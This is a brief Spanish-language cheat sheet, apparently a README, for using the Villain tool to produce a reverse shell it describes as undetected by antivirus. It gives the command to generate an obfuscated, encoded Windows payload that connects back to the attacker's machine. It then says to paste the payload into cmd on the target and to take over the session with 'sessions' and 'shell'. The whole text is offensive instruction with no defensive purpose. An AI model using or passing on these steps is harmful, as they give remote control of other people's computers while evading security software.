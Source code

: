 # ReverShell
#Herramienta: https://github.com/t3l3machus/Villain.git

Revershell que no detecta el antivirus

Poner help generate 

Segun el os usarlo asi:
generate os=windows lhost=eth0 obfuscate encode constraint_mode

El payload que se obtiene pegarlo en la maquina windows por cmd

#Para ver si quedo bien poner sessions 
y luego shell y el id de la session

